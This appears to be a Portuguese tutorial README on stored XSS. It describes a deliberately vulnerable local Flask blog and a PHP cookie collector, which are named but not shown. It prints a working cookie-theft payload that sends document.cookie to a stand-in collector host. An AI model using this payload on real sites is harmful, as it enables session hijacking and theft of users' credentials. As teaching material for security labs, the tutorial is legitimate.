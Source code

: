 # Estudo de Caso: Vulnerabilidade em Formulário de Comentários (Sugestão: Utilizar o SO Kali, Linux ou equivalentes)

# Ataque de XSS persistente:
Um ataque de XSS persistente ocorre quando um script malicioso é injetado e armazenado no servidor de um site vulnerável, como em um campo de comentário ou perfil de usuário, e é então executado no navegador de qualquer usuário que acesse o conteúdo afetado. Este tipo de ataque é também conhecido como XSS armazenado e é considerado o mais perigoso, pois não requer uma interação direta ou um link malicioso da vítima, podendo afetar muitos usuários sem que eles saibam, e o script malicioso pode roubar informações confidenciais ou tomar controle do navegador do usuário. 
Como funciona um ataque de XSS persistente

Injeção do código: Um invasor injeta um script malicioso (payload) em um campo de entrada de um site, como um fórum de mensagens, comentários de blogs ou perfis de usuários. 

Armazenamento: O script é então salvo permanentemente no servidor do site ou no banco de dados da aplicação web. 

Execução: Quando outros usuários visitam a página afetada, seus navegadores carregam o conteúdo com o script malicioso e o executam. 

Consequências
Roubo de dados: O script pode roubar cookies, credenciais de login ou outras informações sensíveis do usuário e enviá-las de volta ao invasor. 

Ataques mais amplos: Como o script é armazenado e executado automaticamente toda vez que a página é acessada, ele pode afetar um grande número de usuários simultaneamente. 

Comprometimento da sessão: Pode roubar o cookie de sessão do usuário, permitindo que o invasor tome controle da conta sem que a vítima precise fazer login. 

Exemplos de pontos de injeção 

Campos de comentários em um blog.

Perfis de usuários em redes sociais.

Fóruns de mensagens.

Campos de nome de usuário ou outros formulários de entrada.

Diferença para XSS refletido

Ao contrário de um ataque de XSS refletido, onde o script é enviado para a vítima através de um link malicioso e não é armazenado, um XSS persistente armazena o script, tornando-o um risco constante para qualquer usuário que visite a página. 

# Cenário:

Imagine uma aplicação de blog simples que permite aos usuários postar comentários em artigos. O formulário de comentários tem um campo de texto para o nome do usuário e outro para o conteúdo do comentário. O código do servidor recebe esses dados e os insere diretamente em uma página HTML que é exibida para outros usuários, sem qualquer tipo de validação ou sanitização.

Para executar o estudo de caso de vulnerabilidade em formulários de comentários e demonstrar o ataque de XSS persistente, você precisará simular o ambiente de uma aplicação web vulnerável.

A vulnerabilidade ocorre quando a aplicação não sanitiza a entrada do usuário antes de armazená-la no banco de dados e exibi-la para outros usuários.

# Passo 1: Simulação da Aplicação Vulnerável

Primeiro, você precisa de um código de servidor simples que tenha a vulnerabilidade. Usarei um exemplo em Python com o framework Flask, que é fácil de configurar.

Código Python (app.py):

Observação sobre a vulnerabilidade: A linha {{ comment | safe }} no template é intencionalmente vulnerável. O filtro | safe no Jinja2 (motor de template do Flask) desabilita a sanitização automática, fazendo com que o HTML injetado seja renderizado.

Executar: Precisa do python instalado 

(base) alex@iMac-de-Alex example_01 % python3 app.py 
 * Serving Flask app 'app'
 * Debug mode: on
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://127.0.0.1:5000
Press CTRL+C to quit
 * Restarting with stat
 * Debugger is active!
 * Debugger PIN: 647-019-061



# Passo 2: Configurando o Servidor de Coleta de Cookies

Para demonstrar o roubo de cookies, você precisa de um servidor que "colete" as requisições maliciosas. Rodar o arquivo .php em um servidor Web (Ex.: Apache)

Código PHP (coletar_cookie.php):

Este script simplesmente pega o valor do cookie da URL e o salva em um arquivo de texto no servidor.

# Passo 3: Execução do Ataque

Com os dois servidores prontos, siga os passos abaixo para realizar o ataque:

Inicie o servidor da aplicação vulnerável: Execute python app.py no seu terminal. Ele estará rodando em http://127.0.0.1:5000.

Inicie o servidor de coleta de cookies: Coloque o arquivo coletar_cookie.php em um servidor web (como Apache ou Nginx) ou use uma ferramenta de tunelamento como o ngrok para expor seu servidor local à internet. Anote a URL.

Acesse a página vulnerável em http://127.0.0.1:5000.

Crie a carga maliciosa: No campo de comentário, insira o seguinte script. Substitua http://seu-servidor-de-coleta.com pela URL do seu servidor Flask.

HTML
<script>
    document.write('<img src="http://seu-servidor-de-coleta.com/coletar_cookie.php?cookie=' + document.cookie + '">');
</script>

Envie o comentário: Clique em "Enviar". A página irá recarregar e exibir a mensagem de sucesso.

Verifique o ataque: Volte para a página inicial da aplicação (http://127.0.0.1:5000). O navegador, ao renderizar o comentário, executará o script. Ele tentará carregar a imagem, o que fará uma requisição GET para o seu servidor de coleta, enviando o cookie.

Confirme o sucesso: Verifique o seu servidor de coleta. O arquivo cookies_roubados.txt deve ter sido criado e conter o cookie roubado.
